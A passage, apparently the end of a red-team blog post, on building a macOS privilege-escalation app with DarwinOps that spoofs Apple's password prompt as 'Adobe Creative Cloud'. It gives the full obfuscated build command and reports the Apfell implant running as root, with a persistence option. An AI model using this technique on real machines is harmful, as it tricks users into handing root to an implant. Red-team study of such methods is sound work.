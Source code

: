 ```
./darwin_ops -G privesc.app -i apfell.js --privesc --privesc-delay-execution 10 --privesc-prompt_app_name "Adobe Creative Cloud" --privesc-prompt-app-icon CreativeCloudApp.icns --autopack --obfuscate
```

<figure><img src="https://miro.medium.com/v2/resize:fit:875/1*jW9XJ3wACpgfYjZu44SvKw.png" alt="" height="474" width="700"><figcaption><p>Apple’s native prompt spoofed to be that of an application we’ve chosen, but which will launch our Apfell implant as root</p></figcaption></figure>

<figure><img src="https://miro.medium.com/v2/resize:fit:875/1*6CiONzkwAN3ezAtU2pFEvA.png" alt="" height="375" width="700"><figcaption><p>Apfell implant as root</p></figcaption></figure>

As you can see, we have root access via our implant, and DarwinOps also allows you to add persistence via other modules.



***

## REFERENCES

* [https://blog.balliskit.com/setup-and-weaponize-mythic-c2-using-darwinops-to-target-macos-9c7d45a44d8b](https://blog.balliskit.com/setup-and-weaponize-mythic-c2-using-darwinops-to-target-macos-9c7d45a44d8b)

